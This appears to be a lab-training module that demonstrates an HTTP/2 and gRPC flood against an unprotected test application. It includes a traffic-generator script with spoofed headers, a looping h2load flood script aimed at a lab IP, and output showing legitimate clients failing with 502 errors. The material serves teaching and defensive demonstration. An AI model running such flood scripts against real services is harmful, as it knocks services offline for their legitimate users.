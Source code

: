 Module 1 - HTTP/2 and GRPC DoS Attack on Unprotected Application
################################################################

| In this module you will generate **good** and malicious traffic. With the addition of malicious traffic will cause the good traffic to error out. We
| will utilize HTTP/2 and gRPC as part of this module.

Demonstrate the effects of an HTTP/2 and gRPC attacks on an unprotected application
-----------------------------------------------------------------------------------

- Generate legitimate traffic 
   
  - In UDF, Click on Access for the **legitimate traffic** VM and select WebShell 
    We will utilize the good.sh bash script in order to generate HTTP 1 traffic using **curl**, HTTP 2 traffic using **h2load** and using Python3 with route_guide_client to generate gRPC traffic.

.. note:: 
   Excerpt of good.sh bash script 

.. code-block:: bash 

      #!/bin/bash
      cd /grpc/examples/python/route_guide/

      IP=10.1.1.4
      PORT=600
      URI='good_path.html'


      declare -a array=("/#/login" "/#/about" "/assets/public/images/products/apple_pressings.jpg" "/#/search")



      while true; do
      echo
      python3 /grpc/examples/python/route_guide/route_guide_client.py  2>&1 | grep "Finished\|502"
      h2load -n 10 -c 10 --header="te: trailers " --ciphers=AES128-GCM-SHA256  https://10.1.1.4:443/testing/ &> /dev/null

      URI=${array[$(( RANDOM % 3 ))]}
      curl -b cookiefile -c cookiefile -L -s -o /dev/null -w "JUICESHOP HTTP Code:%{http_code}\n" -A "Mozilla/5.0 (iPhone; U; CPU iPhone OS 4_3_3 like Mac OS X; en-us) AppleWebKit/533.17.9 (KHTML, like Gecko) Version/5.0.2 Mobile/8J2 Safari/6533.18.5" -H "X-Forwarded-For: 3.3.3.1" http://${IP}:${PORT}/${URI} &
      echo
      URI=${array[$(( RANDOM % 3 ))]}
      curl -b cookiefile -c cookiefile -L -s -o /dev/null  -A "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/534.30 (KHTML, like Gecko) Chrome/12.0.742.112 Safari/534.30" -H "X-Forwarded-For: 3.3.3.2" http://${IP}:${PORT}/${URI} &
      URI=${array[$(( RANDOM % 3 ))]}
      curl -b cookiefile -c cookiefile -L -s -o /dev/null  -A "Mozilla/5.0 (Windows; U; Windows NT 5.1; de; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.3" -H "X-Forwarded-For: 3.3.3.3" http://${IP}:${PORT}/${URI} &


  - At the CLI prompt start the good shell script  

.. code-block:: bash 

       ./good.sh
   
    
Output from the script: 

.. code:: shell 
 
   JUICESHOP HTTP Code:200 Finished trip with 10 points

   JUICESHOP HTTP Code:200 Finished trip with 10 points

   JUICESHOP HTTP Code:200 Finished trip with 10 points 

- Start HTTP/2 Flood attack

- Back in the UDF class, click  Access on the **Attacker** VM and select WebShell
  
.. note::  
   http2flood.sh script

.. code-block:: bash 

      #!/bin/sh
      while true; do
      h2load -n 10000 -c 1000 http://10.1.1.4:500/routeguide.RouteGuide/GetFeature
      done


  - At CLI prompt start the HTTP/2 Flood: 

.. code-block:: bash  
   
    ./scripts/http2flood.sh 


Attack script Output

.. code:: shell 

   finished in 1.07s, 9350.31 req/s, 2.09MB/s
  requests: 10000 total, 10000 started, 10000 done, 0 succeeded, 10000 failed, 0 errored, 0 timeout
  status codes: 0 2xx, 0 3xx, 0 4xx, 10000 5xx
  traffic: 2.23MB (2339000) total, 527.34KB (540000) headers (space savings 45.45%), 1.50MB (1570000) data
                       min         max         mean         sd        +/- sd
  time for request:      625us       1.02s     52.83ms     25.29ms    85.84%
  time for connect:     9.42ms     28.08ms     20.14ms      4.61ms    70.10%
  time to 1st byte:    35.60ms       1.04s     96.07ms     66.04ms    99.60%
  req/s           :       9.56       21.66       17.79        1.69    72.90%
  starting benchmark...
  spawning thread #0: 1000 total client(s). 10000 total requests
  Application protocol: h2c
  progress: 10% done
  progress: 20% done
  progress: 30% done
  progress: 40% done
  progress: 50% done
  progress: 60% done
  progress: 70% done
  progress: 80% done
  progress: 90% done
  progress: 100% done

- Click back on to the WebShell on the legitimate VM. Did the output from
   the script change? Output now shows the HTTP/2 service is
   experiencing an outage.

.. code:: shell

  JUICESHOP HTTP Code:200
        details = "Received http2 header with status: 502"
        debug_error_string = "{"created":"@1650395963.222837020","description":"Received http2 :status header with non-200 OK status","file":"src/core/ext/filters/http/client/http_client_filter.cc","file_line":134,"grpc_message":"Received http2 header with status: 502","grpc_status":14,"value":"502"}"

- Stop the HTTP2Flood attack, by pressing Ctrl-C


